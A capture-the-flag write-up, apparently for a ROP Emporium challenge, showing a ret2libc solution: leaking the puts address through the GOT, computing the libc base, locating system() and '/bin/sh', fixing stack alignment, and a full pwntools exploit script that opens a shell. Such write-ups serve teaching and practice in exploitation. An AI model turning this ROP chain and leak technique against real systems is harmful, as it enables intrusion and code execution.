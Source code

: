 # callme Alternative Solution

There are no `system()` calls nor any `/bin/sh` strings in the application,
however we can find them at runtime, once `libc` has been loaded.

```
gdb ./callme
start

find "/bin/sh"
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
# libc : 0x7fa3151ee5bd --> 0x68732f6e69622f ('/bin/sh')

p *system
# $1 = {int (const char *)} 0x7fa31508c290 <__libc_system>
```

GDB disables ASLR per default, to enable it run `set disable-randomization off`.

In our exploit we can't depend on the addresses reported by GDB above, since
they are usually randomized every time the program is run.

But using `puts` or `printf`, we can print out the address of a known libc
function and then use that to calculate the base address at which libc is
loaded.

```python
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
```

We read the offset of `puts` from the global offset table (GOT):

```sh
readelf --relocs callme
#   Offset          Info           Type           Sym. Value    Sym. Name + Addend
# 000000601018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```

Then we pass this as the argument to a `puts` call, which will dereference it
and print out the actual address of the `puts` function.

By knowing the correct version of libc in use we can simply subtract the offset
(where in libc the function is located) from the leaked address (where in
memory it is loaded) to obtain the address where libc starts in our processes
memory.

```python
libc.address = leaked_addr - libc.symbols["puts"]
```

<details>
<summary>What `libc` version am I using?</summary>

If we run the program locally, we can use something like `readelf -d callme`
to find what is being loaded:

```
Dynamic section at offset 0xe00 contains 26 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libcallme.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
```

`libc.so.6` which is found under `/lib/x86_64-linux-gnu/libc.so.6`.

However, assuming that this is a program running on a remote machine, we don't
have it quite so easy.

We can leak one (or for better accuracy multiple) addresses of libc functions
and use tools like [blukat libc database search](https://libc.blukat.me/) or
[niklasb libc database](https://github.com/niklasb/libc-database) to determine
the correct version.

![Providing the libc database search with the address at which we found puts
returns 4 matches, only one of them being x86\_64.](libc-database-search.png)

![Providing the address of __libc_start_main also, we narrowed the search down
to one match.](libc-version-2.png)

To do the leaking, we can use a function like this:

```python
process_name = "./callme"
elf = ELF(process_name)
rop = ROP(elf)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

OFFSET = b'A'*40
PUTS_PLT = elf.plt['puts']                         # so that we can call the puts function
MAIN = elf.sym['main']                             # so that we can call main again, after leaking an address
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]                # additional ret instruction for padding, to realign stack

def find_addr(func_name):
    func_got = elf.got[func_name]
    # overflow stack, print out function's address, restart at main
    payload = OFFSET + p64(POP_RDI) + p64(func_got) + p64(PUTS_PLT) + p64(MAIN)
    print(p.recvuntil("> "))
    print(p.clean())
    p.sendline(payload)
    leaked_string = p.recvuntil("\ncallme")
    received = leaked_string.replace(b"Thank you!\n", b"")
    received = received.replace(b"\ncallme", b"")
    leaked_addr = u64(received.ljust(8, b"\x00"))
    print("--- leak BEGIN ---")
    print(hex(leaked_addr))
    print("--- leak END ---")
    if libc.address == 0:
        libc.address = leaked_addr - libc.symbols[func_name]
        print("libc base @ %s" % hex(libc.address))

find_addr('puts')
find_addr('__libc_start_main')
```

</details>

---

Finally, we can do our search for the `/bin/sh` string and the `system()`
function.

```python
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

However, the application crashes in `do_system()`, at a `movaps` instruction.
As we've learned in the previous challenges, a simple fix is to include
another `ret` instruction.

```python
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
```

Finally, we get a shell:

```
python3 exploit.py
# ... SNIP ...
[*] Switching to interactive mode
$ whoami
testikus
$ ls
callme    exploit.py        key2.dat  payload.txt
```

## Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'x86_64'

process_name = "./callme"
elf = ELF(process_name)
rop = ROP(elf)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

offset = b'A'*40
pop_rdi = 0x004009a3  # pop rdi; ret gadget
puts_got = 0x00601018 # puts@got
puts_plt = 0x004006d0 # puts@plt
#leave = 0x004008f0    # leave; ret gadget
ret = 0x004008f1      # ret gadget
main = 0x00400847     # main procedure

#p = process(process_name)
p = gdb.debug(process_name, '''
b *pwnme+89
''')

payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
print(p.recvuntil("> "))
print(p.clean())
p.sendline(payload)
leaked_string = p.recvuntil("\ncallme")
received = leaked_string.replace(b"Thank you!\n", b"")
received = received.replace(b"\ncallme", b"")
leaked_addr = u64(received.ljust(8, b"\x00"))
libc.address = leaked_addr - libc.symbols["puts"]
print("libc base @ %s" % hex(libc.address))

bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# do_system uses the movaps instruction, which will fail on an unaligned stack.
# To realign the stack we include an additional ret in our rop-chain.
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)

print(p.clean())
p.sendline(payload)
print(p.clean())
p.interactive()
```

I created most of this with some help from this great
[blog](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address).

Using the script as displayed in the linked article I was always missing the
last byte of the leaked address.
GDB per default disables ASLR, meaning that every time I ran the program in the
debugger, the leaked address was the same.
This address just so happened to end in a `0x20`.

The culprit is this line:

```python
recieved = leaked_string.replace(b"overflow me:", b"").strip()
```

Note the `strip()` at the end, `leaked_string` contains the `printf`/`puts`
address.
If that address ends (or starts) in a `0x20` this will be removed by the
`strip` call, since `0x20` also happens to be ASCII (space).

